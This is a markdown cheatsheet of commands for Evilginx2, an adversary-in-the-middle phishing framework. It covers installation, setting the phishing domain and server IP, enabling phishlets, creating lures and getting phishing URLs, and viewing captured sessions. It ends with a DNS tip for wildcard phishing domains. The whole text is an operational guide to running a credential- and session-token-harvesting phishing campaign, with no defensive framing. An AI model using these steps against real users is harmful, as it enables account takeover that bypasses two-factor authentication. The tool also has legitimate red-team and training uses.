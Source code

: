 ## 🎣 Evilginx2 Cheatsheet {.cols-2}

### ⚙️ Setup

| Command                                               | Description                                 |
| ----------------------------------------------------- | ------------------------------------------- |
| `git clone https://github.com/kgretzky/evilginx2.git` | Clone Evilginx2 source code                 |
| `cd evilginx2 && make && sudo make install`           | Build and install Evilginx2                 |
| `evilginx -p ./phishlets -t ./templates`              | Start Evilginx2 with custom paths           |
| `evilginx -developer`                                 | Run in developer mode with self-signed cert |
| `evilginx -debug`                                     | Enable debug output                         |

### 🌐 Domain Configuration

| Command                        | Description                  |
| ------------------------------ | ---------------------------- |
| `config domain yourdomain.com` | Set phishing domain          |
| `config ip <your_server_ip>`   | Set server public IP address |

### 🎭 Phishlet Management

| Command                                                | Description                        |
| ------------------------------------------------------ | ---------------------------------- |
| `phishlets`                                            | List available phishlets           |
| `phishlets enable <name>`                              | Enable a specific phishlet         |
| `phishlets disable <name>`                             | Disable a specific phishlet        |
| `phishlets hostname <name> <subdomain.yourdomain.com>` | Assign hostname to phishlet        |
| `phishlets hide <name>`                                | Hide a phishlet from lure creation |
| `phishlets unhide <name>`                              | Unhide a phishlet                  |

### 🪤 Lure Management

| Command                                   | Description                  |
| ----------------------------------------- | ---------------------------- |
| `lures create <phishlet_name>`            | Create a new lure            |
| `lures edit <lure_id> redirect_url <url>` | Set redirect URL after login |
| `lures get-url <lure_id>`                 | Show phishing URL            |
| `lures delete <lure_id>`                  | Delete a lure                |
| `lures list`                              | List all configured lures    |

### 🕵️ Session Monitoring

| Command         | Description                        |
| --------------- | ---------------------------------- |
| `sessions`      | List all captured sessions         |
| `sessions <id>` | View details of a specific session |

### 🧪 Testing & Output {.row-span-2}

| Command                                  | Description                    |
| ---------------------------------------- | ------------------------------ |
| `evilginx -p ./phishlets -t ./templates` | Use custom directories         |
| `evilginx -debug`                        | Show debug logs                |
| `evilginx -q`                            | Run quietly (no banner/output) |

---

✅ **Tip:** Use DNS A records for subdomains and CNAMEs for wildcard phishing domains. Disable other services using ports 80, 443, and 53.

### 🔗 Resources

- [Evilginx2 GitHub](https://github.com/kgretzky/evilginx2)
- [Documentation](https://breakdev.org/evilginx-2-next-generation-of-phishing-2fa-tokens/)
